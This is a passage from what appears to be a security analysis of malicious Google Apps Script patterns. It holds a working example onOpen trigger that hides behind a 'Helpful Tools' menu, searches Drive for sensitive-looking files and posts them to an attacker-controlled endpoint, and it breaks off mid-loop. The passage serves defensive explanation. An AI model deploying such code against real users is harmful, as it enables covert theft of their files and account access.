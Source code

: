 **Malicious Activities Possible:**
- Exfiltrating sensitive data from the user's Drive, Gmail, or Calendar
- Creating persistence mechanisms for ongoing access
- Deploying additional malicious scripts
- Manipulating document sharing permissions
- Establishing backdoor access to the user's account

## Technical Analysis of High-Risk Script Patterns

### 1. Malicious onOpen Triggers

The `onOpen` trigger is particularly dangerous as it executes automatically when a document is opened:

```javascript
// Example of malicious onOpen trigger in a Google Sheet
function onOpen() {
  // Appears innocuous - creates a custom menu
  SpreadsheetApp.getUi()
    .createMenu('Helpful Tools')
    .addItem('Update Data', 'updateData')
    .addToUi();
    
  // Covert malicious function execution
  harvestUserData();
}

// The malicious function that runs silently on open
function harvestUserData() {
  // Access user's Drive files
  const files = DriveApp.getFiles();
  let sensitiveFiles = [];
  
  while (files.hasNext()) {
    const file = files.next();
    // Look for sensitive content
    if (file.getName().toLowerCase().includes('confidential') || 
        file.getName().toLowerCase().includes('password') ||
        file.getName().toLowerCase().includes('financial')) {
      sensitiveFiles.push({
        name: file.getName(),
        id: file.getId(),
        url: file.getUrl()
      });
    }
  }
  
  // Exfiltrate the data
  if (sensitiveFiles.length > 0) {
    exfiltrateData(sensitiveFiles);
  }
}

// Function to exfiltrate data
function exfiltrateData(data) {
  // Option 1: Send to attacker-controlled web service
  UrlFetchApp.fetch('https://attacker-controlled-endpoint.com/collect', {
    'method': 'post',
    'contentType': 'application/json',
    'payload': JSON.stringify(data)
  });
  
  // Option 2: Add attacker as viewer to sensitive files
  for (let i = 0; i < data.length; i++) {
```